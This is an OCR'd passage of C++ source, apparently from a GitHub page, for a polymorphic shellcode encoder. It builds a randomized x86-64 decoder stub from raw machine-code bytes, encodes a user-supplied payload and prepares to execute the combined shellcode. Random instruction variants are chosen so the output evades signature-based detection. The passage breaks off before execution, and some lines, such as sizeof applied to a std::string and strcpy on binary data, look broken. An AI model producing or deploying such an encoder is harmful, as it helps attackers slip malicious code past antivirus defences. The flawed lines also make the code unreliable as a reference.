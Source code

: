 ```cpp
// according to the instructions drawn
string loop[2] = {
            "\x48\xff\xc9\x75",
            "\xe0"
};


// Assemble and return a decoder stub
string generate_stub() {

    // Randomly select one option of each set of instructions
    // Calculate the byte size
    srand(time(NULL));
    string parts[4];
    unsigned char size = 0;
    parts[0] = mem_addr[rand() %2];
    size += parts[0].size();

    parts[1] = two_compl[rand() %3];
    size += parts[1].size();

    parts[2] = incr_rsi[rand() %2];
    size += parts[2].size();

    parts[3] = loop[rand() % 2];
    parts[3].push_back((char)(- parts[1].size() - parts[2].size() - (parts[3].size()+1)));
    size += parts[3].size();

    // size of the counter initialization and RSI adjustment
    size += 7;

    // RSI adjustment
    string adjust = "\x48\x83\xc6";
    adjust.push_back(size); 

    // Counter initialization with the payload size
    string str_count = {'\x6a', (unsigned char) sizeof(payload) -1, '\x59'};

    // Assemble and return the decoder stub
    return parts[0] + adjust + str_count + parts[1] + parts[2] + parts[3];
}

/* Set your custom shellcode here */
int main() {

    unsigned char encoded[sizeof(payload)];
    
    // Encode the payload
    for(int i = 0; i < (int) sizeof(payload); i++) {
        unsigned char c = payload[i] - 1;
        encoded[i] = ~c;
    }

    // Generate a decoder stub
    string stub = generate_stub();

    // Display the sizes
    cout << "Encoder size : " << stub.size() << endl;
    cout << "Shellcode size : " << sizeof(payload) - 1 << endl;

    // Append the stub and the encoded shellcode together, then execute.
    char shellcode[sizeof(stub) + sizeof(encoded)];
    strcpy(shellcode, stub.c_str());
```